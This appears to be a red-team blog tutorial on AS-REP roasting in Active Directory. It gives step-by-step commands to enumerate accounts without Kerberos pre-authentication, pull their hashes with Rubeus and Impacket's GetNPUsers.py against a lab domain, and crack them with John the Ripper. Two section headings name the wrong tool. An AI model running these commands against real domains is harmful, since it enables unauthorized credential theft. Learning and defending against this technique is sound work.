 ```yaml
---
title:  "Kerberos attacks 2-AS-REP Roasting "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 2-AS-REP Roasting"
categories:
  - Red-Teaming
toc: true
---
```


## AS-REP roasting 
 * If an Active Directory user has pre-authentication disabled, a vulnerability is exposed which can allow an attacker to perform an offline bruteforce attack against that user’s password.
 * This attack is commonly known as AS-REP Roasting in reference to Authentication Service Requests, a part of the process of authentication with Kerberos.
 * An attacker who is able to find a user with pre-authentication disabled can request an AS-REP ticket for that user and this will contain data encrypted with the user’s password.

<img src="/img/asrep/1.PNG" alt="Getting-gz" width="600" height="200"> 

## AS-REP roasting attack consists of the following steps:
 * 1-Obtain access to a domain as an authenticated user.
 * 2-Use an LDAP filter or tools like PowerView’s Get-DomainUser feature to crawl the domain and identify user accounts with the Do not require Kerberos preauthentication  Property  enabled.
 * 3-Identify target account or accounts.
 * 4-Request a Kerberos  (TGT) from the KDC in the name of a target account. The KDC will respond with the TGT for the account, without requiring the account password as a pre-authentication.
 * 5-Using a tool like Wireshark, extract the user’s password hash from the AS-REP packet. It can be found in the enc-part section of the packet.
 * 6-Use a tool like HashCat or John the Ripper to extract a plaintext password from the captured hash.

## Terminology
```
KDC: Key Distribution Center # The trusted 3rd party / the Domain Controller
TGS: Ticket Granting Server  # A subset function of the KDC which issues service tickets
TGT: Ticket Granting Ticket  # A userbased ticket used to authenticate to the KDC
ST: Service Ticket           # Used to authenticate against services
SPN: Service Principal Name  #The name of a service on the network
```


##  enumerate User account with "Do not require pre-authentication"
```
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```

<img src="/img/asrep/enum.PNG" alt="Getting-gz" width="1000" height="200"> 

```
Import-Module .\powerview.ps1
Get-DomainUser -PreauthNotRequired -verbose| select name
```

<img src="/img/asrep/enum1.PNG" alt="Getting-gz" width="1000" height="200"> 

## ASREP Roasting with Impacket

```
Rubeus.exe asreproast
```

<img src="/img/asrep/rubeus.PNG" alt="Getting-gz" width="1000" height="200"> 

saved the extracted hash in the john crackable format inside a text file
```
Rubeus.exe asreproast /format:john /outfile:hash.txt
```

<img src="/img/asrep/save.PNG" alt="Getting-gz" width="1000" height="200"> 

## ASREP Roasting with  GetUserSPNs.py

```
Import-Module .\powerview.ps1
Get-DomainUser | select name
```
<img src="/img/asrep/users.PNG" alt="Getting-gz" width="1000" height="200"> 

<img src="/img/asrep/users1.PNG" alt="Getting-gz" width="1000" height="200"> 
 
```
python3 GetNPUsers.py karim.net/ -usersfile  users.txt -dc-ip 192.168.128.140
```

<img src="/img/asrep/users10.PNG" alt="Getting-gz" width="1000" height="200"> 

```
python3 GetNPUsers.py karim.net/asrepuser -dc-ip 192.168.128.140
```

<img src="/img/asrep/kali.PNG" alt="Getting-gz" width="1000" height="200"> 
 
## crack hash with john
 
 ```
john tgt.txt -w=/usr/share/wordlists/rockyou.txt
```

<img src="/img/asrep/crack.PNG" alt="Getting-gz" width="1000" height="200"> 

## AS-REP roasting Mitigation
* ensure that no users within the Active Directory domain have Pre-authentication disabled (it is enabled by default).

I finished part 2 in Kerberos attacks today waite me in the next part.


